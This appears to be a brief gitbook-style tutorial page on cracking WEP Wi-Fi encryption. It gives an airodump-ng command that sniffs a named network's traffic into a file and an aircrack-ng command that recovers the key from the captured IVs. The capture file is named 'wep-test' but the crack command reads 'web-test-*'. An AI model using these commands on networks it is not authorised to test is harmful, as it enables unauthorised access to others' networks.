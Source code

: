 # WEP cracking

**Passive Attack which attacker Sniff packet on target network and save it in file call `wep-test`**

![image.png](<../../../.gitbook/assets/image (1) (1) (1).png>)

```bash
airodump-ng wlan0 --channel 5 --bssid D8:29:18:0A:08:91 --write wep-test
```

***

### Use Aircrack-ng tool

which crack WEP by initialization vector

```bash
aircrack-ng web-test-*
```

need more than 5000 IVs `each action is IVs`

<figure><img src="../../../.gitbook/assets/image 1 (1) (1).png" alt=""><figcaption></figcaption></figure>
